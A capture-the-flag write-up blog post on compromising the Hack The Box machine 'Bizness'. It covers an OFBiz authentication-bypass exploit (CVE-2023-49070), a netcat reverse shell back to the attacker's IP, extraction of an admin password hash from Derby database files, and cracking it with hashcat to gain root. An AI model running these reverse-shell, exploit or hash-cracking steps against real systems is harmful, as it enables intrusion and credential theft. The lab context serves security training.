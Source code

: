 ```yaml
---
title: Hack the box Bizness pwned!
date: 2024-03-01 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, bizness, ofbiz, derby]
img_path: /assets/img/posts/
---
```


## Machine info

![Bizness info](htb-bizness-info.png)
*Bizness info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.79
>
>Target machine (victim, Bizness): 10.10.11.252
{: .prompt-info}

## Enumeration

Let's go look for the open ports in the machine using `nmap`:

`sudo nmap -Pn -n -sS -p- --open -T5 --min-rate=5000 -oN nmap_initial.txt 10.10.11.252`

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
38657/tcp open  unknown
44495/tcp open  unknown
```

## Footprinting

We fine tune the scan to see if we can get more information about the running services:

`sudo nmap -Pn -n -sVC -p22,80,443,38657,44495 -oN nmap_versions.txt 10.10.11.252`

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp    open   http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open   ssl/https  nginx/1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
38657/tcp closed unknown
44495/tcp open   tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is a web service running on port 80 pointing to `https://bizness.htb/`, so let's start there.
First of all, we add the machine address to our `/etc/hosts`:

`echo "https://bizness.htb/" | sudo tee -a /etc/hosts`

We browse to `https://bizness.htb/` to investigate the web:

![Bizness Incorporated web](htb-bizness-incorporated-web.png)
*Bizness incorporated web*

We can't do anything in the web, so we will fuzzing with `gobuster` to find hidden resources:

`gobuster dir -u https://bizness.htb -x php,txt,html -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -k -b 301,302,403,404 | tee gobuster.txt`

And, we find the following resources:

```
[2K/index.html           (Status: 200) [Size: 27200]

[2K/control              (Status: 200) [Size: 34633]
```

Under `/control` we have `/control/login`, so we browse to `https://bizness.htb/control/login` and we find the following form:

![OFBiz login](htb-bizness-ofbiz-login.png)
*Bizness login*

We can see the [OFBiz](https://github.com/apache/ofbiz-framework) logo. 
[OFBiz framework](https://github.com/apache/ofbiz-framework) is an Apache open source ERP (Enterprise resource planning) system.

If we look at the very bottom of the page, we can see the [OFBiz](https://github.com/apache/ofbiz-framework) version:

![Bizness version](htb-bizness-ofbiz-version.png)
*Bizness version*

It's running the 18.12 version.
The current version it's a 18.12.12, so could be a little outdated.
If we look for vulnerabilities for the [OFBiz](https://github.com/apache/ofbiz-framework) 18.12 version, we can see that there is the [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070) that allows an authentication bypass in versions <= 18.12.10:

[OFBIz CVE-2023-49070 in github](https://github.com/search?q=CVE-2023-49070&type=repositories)

Seems very convenient for us, so we download a PoC and we try our luck.

## Foothold

>I used [This PoC](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit) from [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba) (thanks for the work! ;)).
>
>To be able to execute the [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba)'s exploit, we need the [ysoserial-all.jar](https://github.com/frohoff/ysoserial) package.
{: .prompt-info}

We open a `netcat` listening on our side:
`nc -lvnp 12345`

And now, we run the exploit:

`python3 ofbiz_exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.79 12345'`

>Seems that the PoCs that I tried don't work every time, and we may have to run it a few times, so be patient :P
{: .prompt-info}

And... We get shell!

### ofbiz

Fist of all, as always, it’s upgrading our tty:

```
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

Now, we can get our user flag:

`cat /home/ofbiz/user.txt`

Seems that we can't do anything else with our new user.
As [OFBiz](https://github.com/apache/ofbiz-framework) by default uses the embedded database `derby` let's take a look at its files, in the `opt/ofbiz/runtime/data/derby/ofbiz/` path.

In `/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.data` we have the crentials of the `admin` user:

```
cat c54d0.dat| grep -i password
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is a SHA-1 hash with a salt. The salt is the character `d`, and the hashed value is `uP0_QaVBpDWFeo8-dRzDqRwXQ2I`, besides `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is encoded in base64.

To crack this password, we need to decode `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` from base64url to hex:

```
echo "uP0_QaVBpDWFeo8-dRzDqRwXQ2I" | tr '_-' '/+' | base64 -d 2>/dev/null | xxd -ps
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

Now, we add the salt and store the string in the `hash.txt` file:

`echo -n "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash.txt`

And, now, we use hashcat to crack it:

`hashcat -a 0 -m 120 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

After a while, we will have the password for the `admin` user.
So, we will try if it is reused for the `root` user:

`su`

It works!
And we can get our system flag:

`cat /root/root.txt`

![Bizness pwned](htb-bizness-pwned.png)
*Bizness has been Pwned*

*Enjoy! ;)*
